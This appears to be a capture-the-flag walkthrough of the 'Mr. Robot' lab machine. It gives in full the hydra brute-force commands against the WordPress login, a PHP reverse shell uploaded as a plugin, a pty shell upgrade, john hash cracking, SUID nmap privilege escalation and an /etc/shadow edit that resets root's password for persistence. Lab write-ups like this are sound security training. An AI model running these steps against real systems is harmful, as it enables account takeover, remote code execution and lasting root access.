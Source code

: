 # Mr. Robot
_IP: 10.0.4.5_

The first thing I did was an nmap scan which you can find i this folder.
Basicly, it did not tell us much, but I found out that there is site running.

_The first thing I checked was:_
https://10.0.4.5/robots.txt

_This is what I've got:_<br>
> User-agent: *<br>
> fsocity.dic<br>
> key-1-of-3.txt

> [!NOTE]
> _key-1-of-3.txt is a flag for ctf doers._

**After some research I figured out that that was a wordpress site.**<br>
Then, I found the login page and started preparing for bruteforce.
Probably there was an easier way, but I ran BurpSuite intercepted traffic while trying to login, and got this line:<br>
> log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1

This is how looked a command for bruteforcing a username:<br>
`hydra -L fsocity.dic -p test 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid username" -V`
> [80][http-post-form] host: 10.0.4.5   login: Elliot   password: test

Now I need to bruteforce the password. But first we need to remove dublications from the file since there is a lot of them.<br>
`sort fsocity.dic | uniq > new_fsocity.dic`

You can check the lenght of the file before and after using this command:
`wc -l`

Then run password bruteforcing.<br>
`hydra -l Elliot -P n_fsocity.dic 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:The password you entered" -V`

Username: _Elliot_ <br>
Password: _ER28-0652_

Looks like I can upload my own plugins, so I found a simple php reverse-shell, and zipped it, so wordpress thinks it is a plugin.<br>
`zip rev-plug.zip ./shell.php`

Upload the plugin, set up a nc listener, and activate the plugin. Now we have a reverse-shell.
Use this command to upgrade the shell:<br>
`python -c 'import pty; pty.spawn("/bin/bash")'`

We can see that there is a user named robot. Go to his folder and we will find:
> key-2-of-3.txt - Second key for ctfers<br>
> password.raw-md5

This is what I have found in password.raw-md5<br>
> robot:c3fcd3d76192e4007dfb496cca67e13b

Let's crack the hash.<br>
`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt` <br>
username: _robot_ <br>
password: _abcdefghijklmnopqrstuvwxyz_

Change current user to robot.

## Almost there
**Now we need to find a way to escalate our privileges.**

We cannot run sudo. Let's look what we can do.
I used the next command to find files that I can run with their owner privileges.
`find / -perm -u=s -type f 2>/dev/null`
One of these files was nmap.

It is useful to have a simple hash if we need in any case.
> WVLY0mgH0RtUI = mrcake

> [!NOTE]
> https://gtfobins.github.io/
> Useful site to find ways for privilege escalation.

To escalate our privileges with nmap I do:
`nmap --interactive`
`!sh`

Then modify the password of root in /etc/shadow to our known hash, so that you can easily access it again.
`nano /etc/shadow`
`root:WVLY0mgH0RtUI:16753:0:99999:7:::`

**Thank you for attention.**
